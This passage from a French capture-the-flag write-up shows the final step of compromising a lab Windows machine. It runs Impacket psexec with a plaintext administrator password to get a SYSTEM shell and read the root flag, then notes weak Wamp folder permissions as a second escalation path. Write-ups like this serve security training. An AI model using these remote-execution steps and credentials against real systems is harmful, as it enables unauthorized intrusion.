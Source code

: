 Tsurugi
-------

Le reste est très simple :  

```plain
$ PYTHONPATH=. python examples/psexec.py KATANA/administrator:mrlolixcobson87@10.1.1.52
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.1.1.52.....
[*] Found writable share ADMIN$
[*] Uploading file dIFVZQlx.exe
[*] Opening SVCManager on 10.1.1.52.....
[*] Creating service XtmJ on 10.1.1.52.....
[*] Starting service XtmJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.523]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:\users\administrator\desktop\

c:\Users\Administrator\Desktop>type root.txt
ac72d3e13e411fe53946a93642b3832b
```

Il y avait un autre vecteur d'attaque sur le système (mais qui devait nécessiter de pouvoir relancer un service) :  

```plain
c:\Users\www>type todo.txt
- Patch Wamp permissions
c:\Users\www>icacls c:\wamp64
wamp64 BUILTIN\Administrators:(I)(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       NT AUTHORITY\Authenticated Users:(I)(M)
       NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files
```

Game over
---------

Un bon CTF bien réalisé avec ce qu'il faut de difficulté :)

*Published November 17 2020 at 14 19*